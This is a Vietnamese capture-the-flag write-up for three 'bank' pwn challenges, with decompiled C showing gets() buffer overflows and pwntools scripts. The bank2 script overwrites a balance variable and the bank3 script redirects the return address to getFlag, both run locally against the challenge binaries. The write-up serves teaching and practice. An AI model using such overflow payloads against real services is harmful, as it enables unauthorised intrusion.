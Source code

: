 # **bank 1**

## bài này không có file thực thi nên mình thử lỗi bufferoverflow nhập một số chữ A và đã leak được luôn flag
### (do khi viết write up server đã đóng nên không có hình minh họa)


# **bank 2**

## Task
nc 61.28.237.24 30203

file: bank2
## Solution

### load file bank2 lên IDA pro và phân tích

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdout, 0);
  Register();
  puts("[+] Good bye!");
  return 0;
}
```

```c
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
  if ( balance == 0x66A44 )
    getFlag();

```

```c
void getFlag()
{
  system("cat flag.txt");
}
```
Hàm `main` sẽ gọi hàm `Register`, nên ta sẽ tập trung phân tích hàm này

để `Register` gọi được hàm  `getFlag` in ra flag thì biến `balance` phải bằng `0x66A44` 

Vào stack của hàm này để xem

![image](https://user-images.githubusercontent.com/31529599/120002219-ca34fa00-bffe-11eb-91f7-4515849f7060.png)

ta thấy biến name nhập vào là chuỗi và có địa chỉ lớn hơn địa chỉ của biến `balance`. Nên bài này chỉ đơn giản là bufer overflow để ghi đề local stack

## Sử dụng pwntool python để khai thác
### vì server đã đóng nên mình sẽ khai thác local với file flag.txt nội dung HCMUSCTF{bank2}

```python
from pwn import *

binary = context.binary = ELF('./bank2')

p = process('./bank2')
#p = remote('61.28.237.24','30203')

payload = b'A'*(0x4c-0xc)

payload += p32(0x66A44)

p.sendline(payload)

f = open('solve.txt','wb')
f.write(payload)

p.interactive()
```
với `0x4c-0xc` là khoảng cách giữa biến `name` và biến `balance`

# Chạy script python
![image](https://user-images.githubusercontent.com/31529599/120003897-5c89cd80-c000-11eb-9aa7-5f6883126e06.png)
Xong !


# **bank 3*

## Task:
nc 61.28.237.24 30204
File: bank3

## Solution
Tương tự như `bank2` bài này cũng tập trung phân tích hàm `Register`

```c
void Register()
{
  char name[64]; // [esp+Ch] [ebp-4Ch] BYREF
  int balance; // [esp+4Ch] [ebp-Ch]

  balance = 0;
  printf("[+] Please enter your name: ");
  gets(name);
  printf("[+] Thanks for the registration, your balance is %d.\n", balance);
}
```
```c
void getFlag()
{
  system("cat flag.txt");
}
```

Bài này thì hàm `Register` không trực tiếp gọi hàm `getFlag` nên chúng ta sẽ thực hiện ghi đè địa chỉ trả về của hàm `Register` này thành địa chỉ của hàm `getFlag` để chương trình gọi hàm `getFlag`

## Exploit (code python)
![image](https://user-images.githubusercontent.com/31529599/120053869-d8166980-c056-11eb-9acf-c403cfc543fa.png)

```python
from pwn import *

binary = context.binary = ELF('./bank3')

#p = remote('61.28.237.24','30204')
p = process('./bank3')

payload = b'A'*(0x4c+0x4)
payload += p32(binary.sym.getFlag)
p.sendline(payload)

p.interactive()
```

với `0x4c+0x4` và khoảng cách giữa biến `name` với return address

# Run scripts
Khi biết write up thì server đã đóng nên mình tạo 1 file flag.txt nội dung HCMUSCTF{bank3} để khai thác local
![image](https://user-images.githubusercontent.com/31529599/120053945-5410b180-c057-11eb-9f10-13bfc1baa3fb.png)

Thành công!


